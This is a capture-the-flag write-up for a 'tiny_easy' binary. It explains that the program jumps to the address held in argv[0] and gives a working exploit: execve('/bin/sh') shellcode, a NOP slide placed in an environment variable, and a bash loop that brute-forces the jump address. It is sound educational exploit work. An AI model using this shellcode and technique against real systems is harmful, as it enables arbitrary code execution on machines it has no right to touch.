




# Tiny Easy
## Introduction
We are given a tiny binary that raises a segmentation fault when it is running.
We should figure out how to get the flag.

## Analysis
As can be seen in IDA, the binary contains very little.
Highlighted in the image, are the entry point address of the program (in the ELF header) and the code in the entry point.

The `pop eax` line actually puts `argc` into eax.
The `pop edx` line puts a pointer to `argv[0]` into `edx`, Then `mov edx, [edx]` copies the first 4 bytes of `argv[0]` into edx,
and then we have `call edx`.
When I run the binary, `call edx` jumps to 0x6d6f682f, which is the start of "/home/...", i.e. `argv[0]`.
The above address is not really defined and causes the segmentation fault.

Let's run `./tiny_easy 1111 2222 3333` and use GDB to better illustrate the stack of the binary.

As we can see, the stack indeed starts with `argc`, then continues to `argv[]` and then we have the environment variables.

No mitigations are enabled for the binary:

## Exploitation
We can control the jump in `call edx` by controlling `argv[0]`.
We can execute code on the stack, so we can place a shellcode that enables a shell on the stack via an environment variable.

We'll use `exec -a <address> tiny_easy` to control `argv[0]`.

## NOP Slide
From repetitively looking at the stack of the executable, the address of the stack is bigger than 0xFF800000.
We'll define the jump address arbitrarily - 0xFFA03030.
But then how can we guarantee that we'll land exactly in the start of the shellcode?
The answer is that the probability for this is very low, but we can drastically increase our chances by creating a NOP slide,
which means that we'll pad our shellcode with a large amount of NOP opcodes before actually starting the shellcode.
Then, all we need it to jump to somewhere in the NOP slide in order to succeed.
Arbitrarily, we'll choose to pad with 0x200000 NOPs before our shellcode.

When I tried the above arbitrary constants, I received an annoying error - "Argument list too long".
After reading, I discovered that the maximum theoretical size of environment variable is 32,760 bytes.
Therefore, I decided to reduce the NOP slide size to 30,000.
I knew that with enough brute-forcing this should work, but that many tries are necessary, so I used bash to do the brute-forcing.

## Summary
1. Craft the shellcode - `asm(shellcraft.i386.linux.sh()) -> b"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"`
2. Pad the shellcode with 30000 NOPs and export it - `export MY_VAR=$(python -c 'print(b"\x90" * 30000 + b"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80")')`
3. Bruteforce running the executable with the modified `argv[0]` - `for i in {1..1000}; do bash -c "exec -a $(python -c 'print("\x30\x30\xa0\xff")') ./tiny_easy"; done`